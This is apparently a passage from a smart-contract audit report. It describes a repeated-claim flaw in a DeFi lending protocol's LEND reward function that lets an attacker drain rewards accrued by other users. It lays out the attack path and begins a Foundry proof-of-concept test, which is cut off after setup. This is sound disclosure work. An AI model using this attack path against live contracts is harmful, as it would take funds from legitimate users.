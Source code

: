 ```solidity
    /**
     * @dev Grants LEND tokens to a user
     * @param user The recipient
     * @param amount The amount to grant
     * @return uint256 Remaining amount if grant failed
     */
    function grantLendInternal(address user, uint256 amount) internal returns (uint256) {
        address lendAddress = LendtrollerInterfaceV2(lendtroller).getLendAddress();
        uint256 lendBalance = IERC20(lendAddress).balanceOf(address(this));

        if (amount > 0 && amount <= lendBalance) {
            IERC20(lendAddress).safeTransfer(user, amount);
@>          return 0;
        }
        return amount;
    }
```

### Internal Pre-conditions

Other suppliers/borrowers should be present before the attacker enters, so that when rewards accrue, there is more LEND available to steal than what the user alone would have accrued.

### External Pre-conditions

N/A

### Attack Path

1. Legitimate users interact with the protocol, in a way which will make them eligible for LEND token rewards.
2. Attacker interacts with the protocol, in a way which will make them eligible for LEND token rewards.
3. Enough time passes for rewards to accrue.
4. Attacker claims multiple times, draining the accrued LEND tokens.
5. When a legitimate user claims, there won't be enough LEND tokens to cover their accrued rewards balance and nothing will be distributed.

### Impact

Users accrued rewards can be drained by an attacker. As a result when they claim nothing will be distributed to them.

### PoC

Paste the following code in `test/TestSupplying.t.sol`.
Use `forge test --match-test test_that_claimLend_can_be_abused_to_drain_rewards -vvv` to run the test.

```solidity
    function test_that_claimLend_can_be_abused_to_drain_rewards() public {
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);

        //Initial supply
        _supply(deployer, "deployer", token, 1000e18);

        address anotherUser = makeAddr("anotherUser");
        _supply(anotherUser, "anotherUser", token, 100e18);

        //Simulate interest accrual by advancing block.timestamp + block.number
        vm.roll(block.number + 100);
        vm.warp(block.timestamp + 3600); // Advance 1 hour

        IERC20 lendToken = IERC20(lendtroller.getLendAddress());
```